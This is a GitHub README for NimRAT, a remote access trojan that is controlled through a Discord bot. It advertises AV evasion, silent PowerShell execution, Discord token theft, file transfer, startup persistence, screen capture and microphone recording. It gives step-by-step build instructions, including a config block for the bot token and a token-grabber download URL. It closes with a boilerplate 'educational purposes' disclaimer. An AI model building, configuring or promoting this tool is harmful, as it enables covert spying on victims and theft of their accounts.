 
# NimRAT

A simple discord-based remote access tool using Nim and Go. Please leave a ⭐ if you have found this project useful :)

## Features

- Not Python
- Only 3 detections on VirusTotal for main payload and 1 detection on VirusTotal for token grabber
- 3-4mb payload
- No server needed - communication via discord bot
- Execute silent powershell commands
- Collect discord tokens
- Upload/Download files
- Add to startup
- Make screenshots and record microphone
- And more!

## Screenshots
![image](https://github.com/user-attachments/assets/38bce1ce-1dca-4124-984a-599963ec593b)  
![image](https://github.com/user-attachments/assets/dee6df5f-8c90-406d-8484-7744fa664e72)  
![image](https://github.com/user-attachments/assets/0f5d1fe2-8dce-419c-8dea-e016beba9c25)  
![image](https://github.com/user-attachments/assets/27d60947-1ff0-4148-9046-3d46791da2bd)  
![image](https://github.com/user-attachments/assets/e6cf0365-5251-427e-8a5f-d6196d5090b9)

## Requirements

You should have Nim and Go installed. Nim for the main payload, Go for the discord tokens. If you don't want to compile the token grabber yourself, you can skip Go installation.

Download Nim - https://nim-lang.org/install.html

Download Go - https://go.dev/doc/install

## Installation and usage

Clone the GitHub repository

```bash
git clone https://github.com/WipingAllOut/NimRAT
cd NimRAT
```

Note: if you want to compile the token grabber yourself and not use the exe provided in this repository, follow these steps:

```bash
cd GoTokenGrabber
go build
```

Open modules/config.nim with any text editor and change values

```nim
let newUsersChannelId* = "" # You will be notified about new users in this channel
let tokenDecryptorUrl* = "https://github.com/WipingAllOut/NimRAT/raw/refs/heads/main/GoTokenGrabber/tokens.exe" # You can leave it as is or upload your token grabber 
let discordToken* = "" # Your discord bot token (https://discord.com/developers/applications)
```

Now launch `compile.bat` and select option 3. If no errors occur, your payload will be in the same folder, `program.exe`.

Important: make sure your discord bot has Message Content Intent enabled!

![image](https://github.com/user-attachments/assets/2fef6b25-b677-4620-a81b-bd763b135726)

To show the list of commands, type `.help`.

## TODO
- [x]  Get user's data from discord token (username, has nitro, etc)  
- [ ]  Get tdata

## Disclaimer

This project is for educational purposes only and aims to promote learning about cybersecurity and ethical hacking.

Prohibited Uses:

- Do not use this tool for illegal, unethical, or malicious activities.
- Use it only in controlled environments with proper authorization.

The author assumes no liability for misuse, damage, or legal issues resulting from this tool. By using this software, you agree to comply with all applicable laws and take full responsibility for your actions.
## Credits

https://github.com/Aaron2599/Discord-Token-Decrypt  
https://github.com/Peroxidelol/Discord-RAT
